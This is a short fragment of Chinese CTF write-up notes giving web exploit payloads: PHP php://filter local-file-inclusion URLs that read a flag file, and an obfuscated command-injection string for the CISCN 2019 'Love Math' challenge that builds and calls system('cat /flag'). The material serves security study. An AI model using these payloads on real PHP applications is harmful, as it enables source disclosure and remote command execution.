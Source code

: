
绕过

```
/index.php?category=php://filter/read=convert.base64-encode/resource=/var/www/html/index/../flag
```

还可以这样

```
 /index.php?category=php://filter/read=convert.base64-encode/index/resource=flag
 
 /index.php?category=php://filter/read=convert.base64-encode|index/resource=flag 
```

## [CISCN 2019 初赛]Love Math

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=cat /flag
```

https://yanmie-art.github.io/2020/10/30/%E4%BB%8E0%E5%BC%80%E5%A7%8B%E5%AD%A6web%E4%B9%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/

## [安洵杯 2019]easy_serialize_php

